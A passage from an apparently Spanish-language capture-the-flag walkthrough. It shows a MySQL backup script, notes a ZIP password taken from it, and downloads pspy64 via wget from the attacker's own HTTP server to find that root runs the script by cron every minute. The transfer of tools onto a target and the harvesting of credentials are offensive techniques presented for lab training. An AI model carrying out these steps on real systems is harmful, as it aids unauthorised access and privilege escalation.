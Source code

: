 ```bash

echo "$(date): Backup comprimido de la base de datos '$DB_NAME' creado en ${BACKUP_FILE}.zip" >> /var/log/backup.log

function cleanup_backups {
    local total_backups=$(ls -1t "$BACKUP_DIR"/*.zip 2>/dev/null | wc -l)

    if (( total_backups > 10 )); then
        ls -1t "$BACKUP_DIR"/*.zip | tail -n +11 | while read -r old_backup; do
            rm -f "$old_backup"
            echo "$(date): Backup antiguo eliminado: $old_backup" >> /var/log/backup.log
        done
    fi
}

cleanup_backups
```
Este script realiza un respaldo automático de la base de datos **MySQL**, lo comprime y cifra con contraseña, guarda un log, y elimina los backups más antiguos para conservar solo los más recientes.

Además, ese script nos está dando una contraseña para un **archivo ZIP**. Guardémosla para más adelante.

También parece que está hecho para ejecutarse cada cierto tiempo, como una **tarea CRON**.

Vamos a comprobarlo con la herramienta **pspy64**:
* <a href="https://github.com/DominicBreuker/pspy" target="_blank">Repositorio de DominicBreuker: pspy</a>

Una vez que lo descargues, levanta un servidor con **Python3**:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Lo descargamos con **wget** desde el contenedor:
```bash
maria@30acf6ca1fb6:~$ wget http://Tu_IP/pspy64
```

Y lo ejecutamos:
```bash
maria@30acf6ca1fb6:~$ chmod +x pspy64
maria@30acf6ca1fb6:~$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░
...
2025/07/30 15:37:01 CMD: UID=0     PID=1276   | /bin/sh -c /opt/scripts/backup.sh 
2025/07/30 15:37:01 CMD: UID=0     PID=1277   | /bin/bash /opt/scripts/backup.sh 
```
Se está ejecutando cada minuto y quien lo ejecuta es el **Root**.

